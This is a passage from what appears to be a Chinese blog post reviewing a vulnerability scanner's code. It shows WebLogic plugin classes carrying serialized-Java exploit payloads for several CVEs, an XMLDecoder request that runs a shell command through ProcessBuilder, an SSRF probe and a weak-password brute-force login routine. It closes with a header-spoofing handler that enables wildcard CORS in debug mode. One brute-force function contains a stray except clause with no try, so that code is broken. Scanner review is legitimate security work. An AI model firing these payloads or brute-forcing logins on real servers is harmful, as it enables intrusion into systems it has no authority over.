57865740004657865637571007e001e0000000171007e00237371007e0011737200116a6176612e6c616e672e496e746567657212e2a0a4f781873802000149000576616c7565787200106a6176612e6c616e672e4e756d62657286ac951d0b94e08b020000787000000001737200116a6176612e7574696c2e486173684d61700507dac1c31660d103000246000a6c6f6164466163746f724900097468726573686f6c6478703f40000000000010770800000010000000007878767200126a6176612e6c616e672e4f766572726964650000000000000000000000787071007e003a78"
    VER_SIG = "weblogic.jms.common.StreamMessageImpl"

class Weblogic_CVE_2016_3510(BaseWebPlugin,BaseWeblogic):
    bugname = "weglogic远程命令执行漏洞CVE-2016-3510"
    bugrank = "紧急"
    bugnumber = "CVE-2016-3510"

    PAYLOAD = "aced0005737200257765626c6f6769632e636f7262612e7574696c732e4d61727368616c6c65644f626a656374592161d5f3d1dbb6020002490004686173685b00086f626a42797465737400025b427870b6f794cf757200025b42acf317f8060854e0020000787000000130aced00057372003a6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e66756e63746f72732e496e766f6b65725472616e73666f726d657287e8ff6b7b7cce380200035b000569417267737400135b4c6a6176612f6c616e672f4f626a6563743b4c000b694d6574686f644e616d657400124c6a6176612f6c616e672f537472696e673b5b000b69506172616d54797065737400125b4c6a6176612f6c616e672f436c6173733b7870757200135b4c6a6176612e6c616e672e4f626a6563743b90ce589f1073296c02000078700000000074000a67657452756e74696d65757200125b4c6a6176612e6c616e672e436c6173733bab16d7aecbcd5a99020000787000000001767200106a6176612e6c616e672e53797374656d00000000000000000000007870"
    VER_SIG = "org.apache.commons.collections.functors.InvokerTransformer"

class Weblogic_CVE_2016_3248(BaseWebPlugin,BaseWeblogic):
    bugname = "weglogic远程命令执行漏洞CVE-2016-3248"
    bugrank = "紧急"
    bugnumber = "CVE-2016-3248"

    PAYLOAD = "aced0005737d00000001001a6a6176612e726d692e72656769737472792e5265676973747279787200176a6176612e6c616e672e7265666c6563742e50726f7879e127da20cc1043cb0200014c0001687400254c6a6176612f6c616e672f7265666c6563742f496e766f636174696f6e48616e646c65723b78707372002d6a6176612e726d692e7365727665722e52656d6f74654f626a656374496e766f636174696f6e48616e646c657200000000000000020200007872001c6a6176612e726d692e7365727665722e52656d6f74654f626a656374d361b4910c61331e03000078707732000a556e696361737452656600093132372e302e302e3100000000000000006ed6d97b00000000000000000000000000000078"
    VER_SIG = "'\\$Proxy[0-9]+'"

class Weblogic_CVE_2018_2893(BaseWebPlugin,BaseWeblogic):
    bugname = "weglogic远程命令执行漏洞CVE-2018-2893"
    bugrank = "紧急"
    bugnumber = "CVE-2018-2893"

    PAYLOAD = "ACED0005737200257765626C6F6769632E6A6D732E636F6D6D6F6E2E53747265616D4D657373616765496D706C6B88DE4D93CBD45D0C00007872001F7765626C6F6769632E6A6D732E636F6D6D6F6E2E4D657373616765496D706C69126161D04DF1420C000078707A000001251E200000000000000100000118ACED0005737D00000001001A6A6176612E726D692E72656769737472792E5265676973747279787200176A6176612E6C616E672E7265666C6563742E50726F7879E127DA20CC1043CB0200014C0001687400254C6A6176612F6C616E672F7265666C6563742F496E766F636174696F6E48616E646C65723B78707372002D6A6176612E726D692E7365727665722E52656D6F74654F626A656374496E766F636174696F6E48616E646C657200000000000000020200007872001C6A6176612E726D692E7365727665722E52656D6F74654F626A656374D361B4910C61331E03000078707732000A556E696361737452656600093132372E302E302E310000F1440000000046911FD80000000000000000000000000000007878"
    VER_SIG = "StreamMessageImpl"

class Weblogic_CVE_2018_2628(BaseWebPlugin,BaseWeblogic):
    bugname = "weglogic远程命令执行漏洞CVE-2018-2628"
    bugrank = "紧急"
    bugnumber = "CVE-2018-2628"

    PAYLOAD = "aced0005737d00000001001d6a6176612e726d692e61637469766174696f6e2e416374697661746f72787200176a6176612e6c616e672e7265666c6563742e50726f7879e127da20cc1043cb0200014c0001687400254c6a6176612f6c616e672f7265666c6563742f496e766f636174696f6e48616e646c65723b78707372002d6a6176612e726d692e7365727665722e52656d6f74654f626a656374496e766f636174696f6e48616e646c657200000000000000020200007872001c6a6176612e726d692e7365727665722e52656d6f74654f626a656374d361b4910c61331e03000078707737000a556e6963617374526566000e3130342e3235312e3232382e353000001b590000000001eea90b00000000000000000000000000000078"
    VER_SIG = "\\$Proxy[0-9]+"

class Weblogic_ssrf(BaseWebPlugin):
    bugname = "weblogic SSRF漏洞"
    bugrank = "中危"
    bugnote = "http://blog.gdssecurity.com/labs/2015/3/30/weblogic-ssrf-and-xss-cve-2014-4241-cve-2014-4210-cve-2014-4.html"
    bugnumber = "CVE-2014-4210"
    bugdesc = "weblogic 版本10.0.2 -- 10.3.6中SearchPublicRegistries.jsp，参数operator可传入内网IP造成SSRF漏洞"

    def filter(self,web):
        return 'weblogic' in web.content or 'servlet' in web.content or web.port == 7001

    def verify(self,web, user='weblogic', pwd='',timeout=10):
        headers = {
            "User-Agent":"Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10_6_8; en-us) AppleWebKit/534.50 (KHTML, like Gecko) Version/5.1 Safari/534.50"
        }
        payload = "/uddiexplorer/SearchPublicRegistries.jsp?operator=http://localhost/robots.txt&rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search"
        vulnurl = web.url + payload
        try:
            req = requests.get(vulnurl, headers=headers, timeout=timeout, verify=False)
            if r"weblogic.uddi.client.structures.exception.XML_SoapException" in req.text and r"IO Exception on sendMessage" not in req.text:
                self.bugaddr = vulnurl
                return True
        except Exception as e:
            print(e)

class Weblogic_interface_disclosure(BaseWebPlugin):
    bugname = "weblogic 接口泄露"
    bugrank = "低危"

    def filter(self,web):
        return 'weblogic' in web.content or 'servlet' in web.content or web.port == 7001

    def verify(self,web, user='weblogic', pwd='',timeout=10):
        headers = {
            "User-Agent":"Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10_6_8; en-us) AppleWebKit/534.50 (KHTML, like Gecko) Version/5.1 Safari/534.50"
        }
        payload = "/bea_wls_deployment_internal/DeploymentService"
        vulnurl = web.url + payload
        try:
            req = requests.get(vulnurl, headers=headers, timeout=timeout, verify=False)
            if req.status_code == 200:
                self.bugaddr = vulnurl
                return True
        except Exception as e:
            print(e)

class WeblogicXmldecoderRce(BaseWebPlugin):
    bugname = "weblogic XMLdecoder反序列化漏洞"
    bugrank = "高危"
    bugnumber = "CVE-2017-10271"
    bugdesc = "weblogic /wls-wsat/CoordinatorPortType接口存在命令执行"
    bugnote = "https://www.anquanke.com/post/id/92003"

    def filter(self,web):
        return 'weblogic' in web.content or 'servlet' in web.content or web.port == 7001

    def verify(self,web, user='weblogic', pwd='',timeout=10):
        headers = {
            "Content-Type":"text/xml;charset=UTF-8",
            "User-Agent":"Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10_6_8; en-us) AppleWebKit/534.50 (KHTML, like Gecko) Version/5.1 Safari/534.50"
        }
        payload = "/wls-wsat/CoordinatorPortType"
        post_data = '''<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
          <soapenv:Header>
            <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
              <java>
                <object class="java.lang.ProcessBuilder">
                  <array class="java.lang.String" length="3">
                    <void index="0">
                      <string>/bin/sh</string>
                    </void>
                    <void index="1">
                      <string>-c</string>
                    </void>
                    <void index="2">
                      <string>whoami</string>
                    </void>
                  </array>
                  <void method="start"/>
                </object>
              </java>
            </work:WorkContext>
          </soapenv:Header>
          <soapenv:Body/>
        </soapenv:Envelope>
        '''
        vulnurl = web.url + payload
        try:
            req = requests.post(vulnurl, data=post_data, headers=headers, timeout=timeout, verify=False)
            if req.status_code == 500 and r"java.lang.ProcessBuilder" in req.text:
                self.bugaddr = vulnurl
                return True
        except Exception as e:
            print(e)

class WeblogicWeakPass(BaseWeblogic):
    bugname = "Weblogic 后台弱口令"
    bugrank = "高危"

    def filter(self,web):
        return ('weblogic' in web.content or 'servlet' in web.content or web.port == 7001) and requests.get(web.url+"/console/j_security_check", verify=False).status_code == 401

    @brute
    def verify(self,web, user='weblogic', pwd='',timeout=10):
        post_data = {"j_username":user,"j_password":pwd}
        headers = {
            "User-Agent":"Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10_6_8; en-us) AppleWebKit/534.50 (KHTML, like Gecko) Version/5.1 Safari/534.50",
            "Content-Type":"application/x-www-form-urlencoded"
        }
        vulnurl = web.url + "/console/j_security_check"
        req = requests.post(vulnurl, data=post_data, headers=headers, timeout=timeout, verify=False, allow_redirects=False)
        if req.status_code == 302 and r"console" in req.text and r"LoginForm.jsp" not in req.text:
            self.bugaddr = "%s:%s@%s"%(user,pwd,vulnurl)
            self.bugreq = "username:%s , password:%s"%(user,pwd)
            return True
        except Exception as e:
            print(e)

```

##  业务逻辑 

发现一种好玩的业务逻辑，也是一种开发经验吧。 
```python 
class BaseHandler(RequestHandler):
    def initialize(self):
        self.session = {}
        if models.userdata.is_closed():
            models.userdata.connect()

    def on_finish(self):
        if not models.userdata.is_closed():
            models.userdata.close()

    def set_default_headers(self):
        self.set_header("X-Powered-By","PHP/6.6.6")
        self.set_header("Server","Apache/6.6.6")
        self.set_header("Date","EMM, 00 SB 2333 00:00:00 MMM")
        if DEBUG:
            self.set_header("Access-Control-Allow-Credentials","true")
            self.set_header("Access-Control-Allow-Origin","*")

    def write_error(self, status_code, **kwargs):
        self.finish("<h1>%d</h1>" % status_code)

    def get_current_user(self):
        return True

```

伪装自己的头，debug模式方便前后端调试。 

##  END 

很多东西平时写扫描的时候没有接触到，但是在这上面发现了，但是这份扫描器很多扫描逻辑太粗暴了，比如sql盲注只是判断文本是否相等。 
